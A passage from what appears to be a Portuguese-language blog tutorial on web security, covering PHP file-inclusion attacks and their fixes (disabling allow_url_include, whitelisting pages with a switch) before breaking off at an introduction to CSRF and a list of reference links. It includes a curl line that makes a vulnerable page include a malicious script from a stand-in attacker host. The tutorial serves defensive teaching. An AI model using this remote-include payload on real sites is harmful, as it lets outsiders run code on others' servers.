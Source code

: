 Logo:

```text
$ curl http://localhost/php-injection.php?page=novidades.php
```

No caso acima, estamos incluindo o arquivo `novidades.php` e
automaticamente exibindo o seu conteúdo. Podemos navegar por outras
áreas do _website_, por exemplo, `page=contato.php` ou
`page=institucional.php`. Mas, e se informarmos
`page=php-injection.php`?

Caímos num _looping_ infinito!

E, infelizmente, esse é o menor dos nossos problemas. O _PHP_, quando
configurado com a opção `allow_url_include` como `TRUE`, é capaz
de importar arquivos de outros _hosts_. Logo, o atacante pode ter um
_script_ malicioso hospedado em seu servidor, e passar o caminho dele
para a aplicação acima. A aplicação incluirá e interpretará o _PHP_ que
estiver neste _script_:

```text
$ curl http://localhost/php-injection.php?page=http://sitedoatacante.com.br/meu-script-malicioso.php.txt
```

Pronto! Temos código _PHP_ de outra pessoa executando em nosso servidor.

Para resolver este problema, configure a opção `allow_url_include`
em seu `php.ini` como `FALSE`. Outro passo importante é, sempre que
for importar algum arquivo que dependa de informações vindas do usuário,
verifique o conteúdo desta informação. Exemplo:

```php
switch($page) {
    case 'novidades':
        include('novidades.php');
        break;
    case 'contato':
        include('contato.php');
        break;
    case 'institucional':
        include('institucional.php');
        break;
    default:
        include('404.php');
}
```

Este ataque não é tão incomum quanto deveria. Fique atento.

## CSRF – Cross-site request forgery (não confie na requisição)

O **_Cross-site request forgery_** ou **falsificação de solicitação
entre sites**, é uma forma de ataque que mescla a [Engenharia Social][]
com vulnerabilidades das aplicações _web_.


[*web*]: /tag/desenvolvimento-web.html "Leia mais sobre Web"
[*django*]: /tag/django.html "Leia mais sobre Django"
[*codeigniter*]: /tag/codeigniter.html "Leia mais sobre Codeigniter"
[*php*]: /tag/php.html "Leia mais sobre PHP"
[*javascript*]: /tag/javascript.html "Leia mais sobre Javascript"
[*forms*]: https://docs.djangoproject.com/en/dev/topics/forms/ "Conheça os Forms no Django"
[*form validation class*]: http://codeigniter.com/user_guide/libraries/form_validation.html "Veja como fazer validações de formulário no Codeigniter"
[biblioteca *validate*]: http://pear.php.net/manual/en/package.validate.validate.intro.php "Instale a Validate através da PEAR"
[*seo*]: http://pt.wikipedia.org/wiki/Otimiza%C3%A7%C3%A3o_para_motores_de_busca "Leia mais sobre SEO no Wikipedia"
[*nginx*]: /tag/nginx.html "Leia mais sobre Nginx"
[veja um exemplo de uso]: http://stackoverflow.com/questions/812571/how-to-create-friendly-url-in-php "Como criar rotas para arquivos PHP com o Apache"
[*rich text editors*]: http://www.webdesignerdepot.com/2008/12/20-excellent-free-rich-text-editors/ "Conheça 20 excelentes editores WYSIWYG"
[*pdo*]: http://php.net/pdo "Conheça a lib PDO do PHP"
[*django* utiliza *orm*]: https://docs.djangoproject.com/en/1.4/topics/db/queries/ "Making queries"
[*codeigniter* tem a *active record class*]: http://codeigniter.com/user_guide/database/active_record.html "Active Record Class"
[*md5*]: http://pt.wikipedia.org/wiki/MD5 "Conheça o algoritmo MD5"
[*sha1*]: http://pt.wikipedia.org/wiki/SHA1 "Conheça o algoritmo SHA1"
[recomendam o uso de algoritmos mais sofisticados]: https://docs.djangoproject.com/en/dev/releases/1.4/#improved-password-hashing "Leia a release note do Django 1.4"
[*pbkdf2*]: http://en.wikipedia.org/wiki/PBKDF2 "Conheça o algoritmo PBKDF2"
[engenharia social]: http://pt.wikipedia.org/wiki/Engenharia_social_(seguran%C3%A7a_da_informa%C3%A7%C3%A3o) "Leia mais sobre Engenharia Social no Wikipedia"
[*the open web application security project*]: https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF) "Leia mais sobre CSRF"
[sessões]: /2012/04/05/entendendo-os-cookies-e-sessoes.html "Entendendo o Cookies e Sessões"
[um *post* interessante para o *php-sp*]: http://phpsp.org.br/2011/07/protegendo-seu-sistema-contra-ataques-csrf/ "Protegendo seus sistemas contra ataques CSRF"
[*caugh in a web: validating an integer in php*]: http://www.dinke.net/blog/en/2011/10/20/validating-an-integer-with-php/ "As diferentes formas de validarmos um valor inteiro em PHP"
[*codeigniter user guide: active record class*]: http://codeigniter.com/user_guide/database/active_record.html "Saiba como fazer consultas eficientes ao banco de dados com o Codeigniter"
[*codeigniter user guide: security*]: http://codeigniter.com/user_guide/general/security.html "Veja as dicas de segurança dadas pelo time do Codeigniter"
[*django documentation: making queries*]: https://docs.djangoproject.com/en/1.4/topics/db/queries/ "Saiba como construir modelos e como consultá-los através do ORM do Django"
[*django documentation: security in django*]: https://docs.djangoproject.com/en/dev/topics/security/ "Veja dicas preciosas de segurança utilizando o Django"
[invasão.com.br: *php injection* – o fim das dúvidas]: http://www.invasao.com.br/2008/03/18/php-injection-o-fim-das-duvidas/ "Entenda como funciona um ataque via PHP Injection"
[*php documentation: mysql melhorada*]: http://www.php.net/manual/pt_BR/book.mysqli.php "Conheça a mysqli direto da documentação do PHP"
[*php documentation: pdo – php data objects*]: http://php.net/pdo "Conheça uma das formas mais eficientes de fazer consultas a bancos de dados no PHP"
[*php sp*: protegendo o seu sistema contra ataques *csrf*]: http://phpsp.org.br/2011/07/protegendo-seu-sistema-contra-ataques-csrf/ "Aprenda como utilizar tolkens para prevenir ataques CSRF"
[*site point: top 7 php security blunders article*]: http://www.sitepoint.com/php-security-blunders/ "Excelentes dicas de segurança para quem programa em PHP"
[*stack overflow: best way to stop sql injection in php*]: http://stackoverflow.com/questions/60174/best-way-to-stop-sql-injection-in-php "Excelente thread no Stack Overflow, sobre SQL injection"
[*the open web application security project: cross-site request forgery*]: https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF) "Um bom artigo sobre o conceito do CSRF"
[*wikipedia: code injection*]: http://en.wikipedia.org/wiki/Code_injection "Leia mais sobre as formas de injeção de código no Wikipedia"
[*wikipedia*: injeção de *sql*]: http://pt.wikipedia.org/wiki/Inje%C3%A7%C3%A3o_de_SQL "Leia mais sobre SQL Injection no Wikipedia"
